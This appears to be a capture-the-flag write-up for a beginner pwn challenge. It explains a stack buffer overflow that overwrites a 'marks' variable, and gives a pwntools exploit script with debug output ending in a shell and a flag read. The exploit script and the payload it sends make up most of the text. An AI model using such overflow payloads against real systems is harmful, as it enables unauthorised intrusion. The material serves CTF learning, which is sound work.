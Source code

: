 The goal here is to get 100 marks but as we can see, the highest we can get is 74. So, we have to overflow our comment buffer into the m variable in our stack.
Once you get where our m variable is in the stack, it is pretty easy to write an exploit that will overflow our buf buffer into the marks m variable.
Here is my solution:

```python
#!/usr/bin/env python

from pwn import *

context.log_level = "debug"

# p = process("./chal")
p = remote("34.70.212.151", 8004)

p.recv()
p.sendline(b"123")
p.recv()
p.sendline(b"whoami")
p.recv()
pay = b"a" * 68 + p64(100)
p.sendline(pay)
p.interactive()
p.close()
```

```sh
backdoor/beginner/marks on  master [!?] via 🐍 v3.11.6
❯ ./sol.py
[+] Starting local process './chal' argv=[b'./chal'] : pid 118111
[DEBUG] Received 0x38 bytes:
    b'Enter your details to view your marks ...\n'
    b'Roll Number : '
[DEBUG] Sent 0x4 bytes:
    b'123\n'
[DEBUG] Received 0x7 bytes:
    b'Name : '
[DEBUG] Sent 0x7 bytes:
    b'whoami\n'
[DEBUG] Received 0x11 bytes:
    b'Please Wait ...\n'
    b'\n'
[DEBUG] Sent 0x4d bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000040  61 61 61 61  64 00 00 00  00 00 00 00  0a           │aaaa│d···│····│·│
    0000004d
[*] Switching to interactive mode
[DEBUG] Received 0x50 bytes:
    b'You got 21 marks out of 100\n'
    b'Any Comments ?\n'
    b'Thanks !\n'
    b'Cool ! Here is your shell !\n'
You got 21 marks out of 100
Any Comments ?
Thanks !
Cool ! Here is your shell !
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x16 bytes:
    b'chal  flag.txt\n'
chal  flag.txt
$ cat flag.txt
```